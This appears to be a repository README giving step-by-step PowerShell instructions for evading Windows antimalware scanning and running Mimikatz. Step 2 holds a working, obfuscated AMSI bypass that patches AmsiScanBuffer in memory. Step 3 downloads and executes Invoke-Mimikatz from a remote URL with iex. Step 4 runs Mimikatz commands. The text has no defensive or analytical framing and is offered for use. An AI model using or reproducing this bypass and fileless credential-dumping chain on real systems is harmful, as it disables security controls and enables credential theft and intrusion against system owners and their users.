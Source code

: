 1. Open Powershell as Admin

2. Disable AMSI (paste the following):

$xudbk = @"
using System;
using System.Runtime.InteropServices;
public class xudbk {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr pbsxld, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $xudbk
$wvyfoqc = [xudbk]::LoadLibrary("$(('âmsì.'+'dll').nOrMALIZe([cHAR](70)+[ChAR]([BYTE]0x6f)+[CHAr](114)+[ChAR]([byTe]0x6d)+[CHAR](68*12/12)) -replace [Char](92+19-19)+[cHar]([ByTe]0x70)+[cHaR](123+15-15)+[chAR](77)+[Char](110*102/102)+[cHar]([BytE]0x7d))")
$dhdzwx = [xudbk]::GetProcAddress($wvyfoqc, "$(('ÁmsìScänBu'+'ffer').NorMAlIZE([chaR]([byTE]0x46)+[chAR](111)+[char]([Byte]0x72)+[chAR]([BYtE]0x6d)+[CHar]([byTE]0x44)) -replace [cHar]([BYTe]0x5c)+[CHAr](112)+[cHAR]([bytE]0x7b)+[char]([bytE]0x4d)+[ChAR](110)+[CHAR](125+4-4))")
$p = 0
[xudbk]::VirtualProtect($dhdzwx, [uint32]5, 0x40, [ref]$p)
$qbzv = "0xB8"
$dnyd = "0x57"
$ttvz = "0x00"
$xcoe = "0x07"
$dlsl = "0x80"
$vslp = "0xC3"
$dcios = [Byte[]] ($qbzv,$dnyd,$ttvz,$xcoe,+$dlsl,+$vslp)
[System.Runtime.InteropServices.Marshal]::Copy($dcios, 0, $dhdzwx, 6)

3. Load Mimikatz into Memory:
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/jj4152/invoke-mimikatz/main/invoke-mimikatz.ps1')

4. Execute desired command:
Invoke-Mimikatz -Command "<command>"
